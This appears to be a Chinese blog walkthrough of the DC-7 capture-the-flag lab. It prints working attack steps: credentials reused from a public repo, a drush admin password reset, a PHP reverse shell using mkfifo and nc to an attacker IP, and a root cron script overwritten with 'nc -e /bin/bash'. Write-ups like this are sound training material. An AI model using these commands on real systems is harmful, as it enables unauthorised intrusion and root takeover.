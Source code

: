 ```yaml
---
layout: post
title: DC-7
subtitle: DC-7
date: 2025-07-16 09:47
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - DC系列
published: true
---
```

## 信息搜集

ip扫描发现 `192.168.163.131`

![image.png](https://img.ghostliner.top/8pzokb.png)

nmap扫描端口

```shell
nmap -T4 -A -p- 192.168.163.131
```

![image.png](https://img.ghostliner.top/7M8xan.png)

访问站点发现特殊字符串

![image.png](https://img.ghostliner.top/RdFxZA.png)

必应搜索 `DC7USER` 发现GitHub项目 `staffdb` 
[Dc7User/staffdb](https://github.com/Dc7User/staffdb)

在配置文件中发现mysql数据库连接配置

![image.png](https://img.ghostliner.top/EfjNcG.png)

```php
<?php
	$servername = "localhost";
	$username = "dc7user";
	$password = "MdR3xOgB7#dW";
	$dbname = "Staff";
	$conn = mysqli_connect($servername, $username, $password, $dbname);
?>
```

## 渗透测试

使用该用户名密码进行SSH连接，成功

查看目录，发现mbox邮件文件和网站备份文件

![image.png](https://img.ghostliner.top/LC5ABy.png)

查看mbox文件，发现定时执行脚本：`/opt/scripts/backups.sh`

查看 `/var/mail/dc7user` 文件，发现自动化任务间隔15分钟

![image.png](https://img.ghostliner.top/WVsmvH.png)

查看脚本权限，发现当前用户无法写入，但是 `www-data`可以

![image.png](https://img.ghostliner.top/OoOhy8.png)

查看脚本内容：

```shell
#!/bin/bash
rm /home/dc7user/backups/*
cd /var/www/html/
drush sql-dump --result-file=/home/dc7user/backups/website.sql
cd ..
tar -czf /home/dc7user/backups/website.tar.gz html/
gpg --pinentry-mode loopback --passphrase PickYourOwnPassword --symmetric /home/dc7user/backups/website.sql
gpg --pinentry-mode loopback --passphrase PickYourOwnPassword --symmetric /home/dc7user/backups/website.tar.gz
chown dc7user:dc7user /home/dc7user/backups/*
rm /home/dc7user/backups/website.sql
rm /home/dc7user/backups/website.tar.gz
```

发现drush命令：[dupal 瑞士军刀：drush 命令大全](https://www.dwoke.com/node/436)

### 用户提权

尝试www-data用户提权

```shell
cd /var/www/html
# 更改admin用户密码
drush user-password admin --password="admin"
```

![image.png](https://img.ghostliner.top/pDzFGN.png)

网站登录成功，尝试反弹shell获取 `www-data`用户权限，以更改 `backups.sh`脚本

安装插件： https://ftp.drupal.org/files/projects/php-8.x-1.0.tar.gz

![image.png](https://img.ghostliner.top/yk1FYQ.png)

开启插件
![image.png](https://img.ghostliner.top/E4bbaT.png)

勾选，点击页面最下方 `install`

### 反弹shell

在文章中添加脚本

```php
<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -nv 192.168.163.132 4444 >/tmp/f');?>
```

![image.png](https://img.ghostliner.top/CxupAM.png)

反弹shell成功，编辑 `/opt/scripts/backups.sh` 文件

```shell
echo "nc -nv 192.168.163.132 5555 -e /bin/bash" >/opt/scripts/backups.sh
```

反弹shell成功，获取到root权限

![image.png](https://img.ghostliner.top/2aDj41.png)

### 查看flag

```shell
python -c "import pty;pty.spawn('/bin/bash')"
cat /root/theflag.txt
```

![image.png](https://img.ghostliner.top/tX2DGp.png)
